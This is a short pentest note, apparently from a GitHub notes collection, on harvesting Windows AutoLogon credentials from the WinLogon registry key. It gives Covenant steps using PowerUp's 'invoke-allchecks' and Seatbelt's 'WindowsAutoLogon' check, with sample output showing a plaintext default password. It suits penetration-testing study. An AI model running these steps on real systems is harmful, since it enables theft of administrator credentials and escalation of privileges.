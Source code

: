 # AutoLogon

## Target requirements

- The target need to have those values in the registrery key in `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\WinLogon`
  - AutoAdminLogon set to 1
  - DefaultDomainName with a valid domain set
  - DefaultUserName with a valid admin username
  - DefaultPassword with a valid admin pass  

This basically means that the target when restarted will logon automatically without prompting for username and password.

## Exploitation

- You should have a shell with covenant or metasploit or netcat.  
We will use Covenant here.

### Covenant with PowerUp

- In the shell we will type PowerShellImport, type enter and fetch PoweUp.ps1 (if you do not have it you can get it [here](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1) )  
- Click on execute
- type `powershell invoke-allchecks` in your shell
- Once the command executed it will do all sorts of check and we should see something like this:
```
[*] Checking for Autologon credentials in registry...

DefaultDomainName    : domain
DefaultUserName      : f.lastanme
DefaultPassword      : password
AltDefaultDomainName : 
AltDefaultUserName   : 
AltDefaultPassword   : 

```

### Covenant with Seatbelt

- Check for it with `Seatbelt WindowsAutoLogon`

```
====== WindowsAutoLogon ======

  DefaultDomainName              : domain
  DefaultUserName                : f.lastanme
  DefaultPassword                : password
  AltDefaultDomainName           : 
  AltDefaultUserName             : 
  AltDefaultPassword             : 
```

## Resources

- [TCM security Academy -  Movement pivoting and persistence for pentesters and ethical hacker](https://academy.tcm-sec.com/p/movement-pivoting-and-persistence-for-pentesters-and-ethical-hackers)
